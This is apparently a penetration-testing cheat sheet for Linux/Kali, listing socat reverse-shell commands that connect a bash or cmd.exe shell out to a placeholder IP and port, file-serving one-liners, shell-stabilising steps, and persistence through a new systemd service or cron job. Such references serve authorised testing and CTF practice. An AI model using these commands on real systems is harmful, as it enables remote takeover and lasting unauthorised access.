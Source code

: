 Linux/Kali
I will think of a better title for this section, I swear.
  
[Linux Terminal Cheat Sheet](https://docs.google.com/document/d/1vJxoHrjW607NJDLC1Zln1llrEIqrS6Ea3j9ihJTdblg/)
[Linux Printing Tricks](https://github.com/RedefiningReality/Linux-Defence-Materials/blob/main/Linux%20Terminal/Printing%20Tricks.md)
  
[Reverse Shells](https://www.revshells.com/)
socat file:`tty`,raw,echo=0 tcp-listen:[port]
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:[ip]:[port]
socat.exe exec:'cmd.exe',pipes TCP4:[ip]:[port]
  
# Serving Files
HTTP: python3 -m http.server [port] --directory [directory]
SMB: impacket-smbserver [share] [directory] -port [port] -username [username] -password [password] -smb2support
FTP: python3 -m pyftpdlib -d [directory] -p [port] -u [username] -P [password]
- add -w for write permission
    
  
# Beautify Shell
- python -c 'import pty; pty.spawn("/bin/bash")' OR script -qc /bin/bash /dev/null
    
- ^Z (Ctrl+Z)
    
- stty -a
    
- remember rows and columns
    
- stty raw -echo
    
- fg
    
- fg (yes, you have to type it twice → this is not a typo)
    
- export term=xterm
    
- stty rows [rows] columns [columns]
    
  
# Persistence
  
### Create New Service
edit /etc/systemd/system/[service].service
|   |
|---|
|[Unit]<br><br>Description=[description]<br><br>  <br><br>[Service]<br><br>Type=simple<br><br>Restart=always<br><br>ExecStart=[executable]<br><br>  <br><br>[Install]<br><br>WantedBy=multi-user.target|
  
systemctl daemon reload
systemctl enable [service]
  
### Create New Cron Job
crontab -e
[minute] [hour] [day of month] [month] [day of week] [command]
  